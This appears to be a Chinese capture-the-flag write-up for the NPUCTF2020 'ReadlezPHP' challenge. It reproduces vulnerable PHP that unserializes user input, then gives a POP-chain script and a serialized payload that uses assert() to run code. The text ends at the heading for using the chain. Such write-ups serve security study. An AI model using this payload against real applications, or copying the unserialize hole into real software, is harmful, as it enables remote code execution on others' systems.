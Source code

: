 # 原创
：  [NPUCTF2020]ReadlezPHP

# [NPUCTF2020]ReadlezPHP

#### [NPUCTF2020]ReadlezPHP

## 考点

> 
php动态函数、反序列化


## 思路

> 
①：查看源码，发现`href="./time.php?source"`<br/> ②：跟进去发现源码，很明显的反序列化<br/> ③：构造Payload，phpinfo页面搜索flag


## Payload

> 
源码


```
&lt;?php
#error_reporting(0);
class HelloPhp
{
    public $a;
    public $b;
    public function __construct(){
        $this-&gt;a = "Y-m-d h:i:s";
        $this-&gt;b = "date";
    }
    public function __destruct(){
        $a = $this-&gt;a;
        $b = $this-&gt;b;
        echo $b($a);
    }
}
$c = new HelloPhp;

if(isset($_GET['source']))
{
    highlight_file(__FILE__);
    die(0);
}

@$ppp = unserialize($_GET["data"]);

```

> 
构造的POP链


```
&lt;?php
class HelloPhp
{
    public $a;
    public $b;
}
$c = new HelloPhp();
$c-&gt;a = 'phpinfo()';
$c-&gt;b = 'assert';
echo serialize($c);
?&gt;
=&gt;
O:8:"HelloPhp":2:{s:1:"a";s:9:"phpinfo()";s:1:"b";s:6:"assert";}

```

> 
利用POP链

